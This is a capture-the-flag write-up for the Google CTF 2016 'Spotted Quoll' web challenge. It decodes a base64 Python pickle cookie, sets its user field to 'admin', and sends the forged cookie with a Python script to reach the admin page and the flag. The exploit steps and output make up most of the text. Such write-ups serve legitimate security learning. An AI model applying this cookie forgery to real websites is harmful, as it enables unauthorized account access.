 # Google CTF 2016 : Spotted Quoll

**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

[This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


## Write-up

### Investigate
I start by enabling developer toolbar on Google Chrome and start capturing the network traffic.

I notice an 'Admin' button at the top of the page.  When I click on it, I just get redirected to the homepage and notice my URL bar updates as followed:
```
https://spotted-quoll.ctfcompetition.com/#err=user_not_found
```

However, I notice my browser downloaded a cookie at some point.

It looks like the cookie was retrieved from a 'GET' request at '/getCookie'.  This information will be useful when implemeting the script later.
```
Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
```

I have heard of 'pickle' before.  It's a format for serializing data, usually over a network.  Very similar to JSON.  I tried loading the above data directly into pickle.  But unfortunately, it threw an exception.

However, the pickle could be simply encoded in another format, perhaps base64....
```
Base64:
KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu

PlainTxt:
(dp1
S'python'
p2
S'pickles'
p3
sS'subtle'
p4
S'hint'
p5
sS'user'
p6
Ns.
```

Ok, that looks a lot more like pickle data to me, let's load it up in Python.

### Code

Load the pickle data
```python
#Decode the base64 pickle
pickb64 = cookie['obsoletePickle']
pick = b64decode(pickb64)

#Write the pickle to a tmp file
tmpf = 'tmp.p'
f = open(tmpf, 'wb')
f.write(pick)
f.close()

#load the pickle
obsoletePickle = pickle.load(open('tmp.p', 'rb'))
print('%s' % str(obsoletePickle))
```

Print the pickle data
```
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

### Exploit
From the formatted pickle data, it should be pretty clear what's going on.  The 'user' field is set to None.  This is because we are not logged in.  I think we can trick the webiste!  Why don't we login as the admin by setting our 'user' attribute to 'admin'.

Modify the pickle data so that it reads...
```
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
```

Modify pickle data and dump back to raw data
```python
obsoletePickle['user'] = 'admin'

#Write to spoofed pickle to a new file
pickle.dump(obsoletePickle, open('spoofed.p', 'wb'))
spooff = 'spoofed.p'

#Read back as plain data
f = open(spooff, 'rb')
pick = f.read()
f.close()
```

Create the new cookie (encoded in base64)
```python
spoofed_cookie = dict(obsoletePickle=b64encode(pick))
```

Perform the attack to login to the admin page 'admin'
```
r = requests.get(URL + 'admin', verify=False, cookies=spoofed_cookie)
print(r.text)
```

### Script Output
```
HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```

Flag
```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
